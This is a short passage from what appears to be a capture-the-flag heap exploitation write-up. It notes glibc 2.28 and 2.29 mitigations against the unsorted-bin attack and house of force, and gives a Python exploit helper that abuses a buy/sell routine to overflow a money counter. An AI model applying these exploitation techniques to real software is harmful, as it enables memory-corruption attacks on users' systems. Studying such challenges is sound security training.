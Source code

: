 ![](./index_files/395a9006-bf36-47e5-a813-bab06c277bb8.png)

- ```calloc``` will zero the memory got from ```__int_malloc```.
### Glibc 2.29
1. Glibc2.28 disallowed **unsotedbin attack** for arbitrary address writing. So, it is not easy to overwrite ```global_max_fast``` to fuck chunks and bins of any size into the range of fastbins.
2. Glibc2.29 disallowed **house of force**.

## Exploit
### Get Enough Money
I play the trick mentioned before to get the money close to 0xffffffffffffffff for further exploiting.
```
def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))

fuck_money(0x13f69b02593f69b1)
fuck_money(0x109bb0727572e2bd)
fuck_money(0x13f2b1389a662c33)
fuck_money(0x4fcace18cee3091)
```

![](./index_files/cbaa8b6f-b60b-4c5d-af07-06a2924d0a25.jpg)

